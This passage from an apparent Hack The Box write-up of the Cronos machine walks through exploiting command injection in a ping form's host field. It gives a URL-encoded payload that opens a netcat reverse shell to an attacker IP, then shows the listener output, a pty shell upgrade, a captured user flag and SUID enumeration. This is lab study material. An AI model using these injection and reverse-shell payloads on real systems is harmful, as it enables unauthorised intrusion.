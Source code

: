 I sent this over to Burpsuite to make it easier, and in the above image it shows that by adding ";whoami" to the host field it executes that command and displayed the results in the response as "www-data".

## www-data Shell

By sending a bash reverse shell here I was able to get a reverse shell on my netcat listener

payload:
```sh
command=ping+-c+1&host=8.8.8.8;echo+"rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.11+443+>/tmp/f"+|+bash
```

listener:
```sh
┌──(kali㉿kali)-[~/boxes/htb/cronos]
└─$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.13] 49830
/bin/sh: 0: can't access tty; job control turned off
$ 
```


I used python to spawn a TTY shell

```sh
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@cronos:/var/www/admin$ 
```


In /home/noulis I do have read access to user.txt

```sh
cat user.txt
51d236438b333970dbba7dc3089be33b
```


A couple manual things I like to do before running linpeas or another enumeration script. One thing is to seard for SUID files. In this case I didnt see anything interesting.

```sh
find / -perm -4000 -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
/bin/ntfs-3g
/bin/ping6
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/passwd

```